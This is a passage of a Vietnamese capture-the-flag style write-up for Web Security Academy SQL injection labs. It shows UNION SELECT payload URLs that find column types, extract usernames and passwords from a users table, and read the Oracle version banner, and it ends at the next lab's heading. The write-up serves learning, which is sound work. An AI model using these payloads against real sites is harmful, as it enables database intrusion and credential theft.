 - Và tôi đã lấy được tài khoản admin.

> ### **SQL injection UNION attack, retrieving multiple values in a single column**

- Sau khi tôi thực hiện một số truy vấn, tôi đã xác định số lượng cột. Bước thứ 2 tôi đã xác định kiểu dữ liệu của cột bằng cách truy vấn như sau:

```js
https://0ac3003a043fbcd6c275fc21005c0046.web-security-academy.net/filter?category=%27+UNION+SELECT+%27a%27,NULL--
```

- Và tôi biết được chỉ mỗi duy nhất cột 2 có `kiểu dữ liệu chuỗi`. Vậy tôi đã lấy dữ liệu tk và pass như sauL

```js
https://0ac3003a043fbcd6c275fc21005c0046.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20NULL,username%20||%20%27~%27%20||%20password%20FROM%20users--
```

![](./img_sql/sql-4.png)

> ### **SQL injection attack, querying the database type and version on Oracle**

- Đối với bài này trang web đã sử dụng cơ sở dữ liệu Oracle, như ta đã biết Oracle có sử dụng 1 bảng mang tên Dual và mọi người dùng đều có thể truy cập được, vận dụng điều đó tôi đã tấn công để xem được version sql như sau.

```js
https://0a0a00dd030c7017c2de751600ee0030.web-security-academy.net/filter?category=%27+UNION+SELECT+NULL,banner+FROM+v$version--
```

> ### **SQL injection attack, querying the database type and version on MySQL and Microsoft**

- Tôi đã sử dụng sql injection để xác định được bảng này sử dụng đến 2 cột như sau:
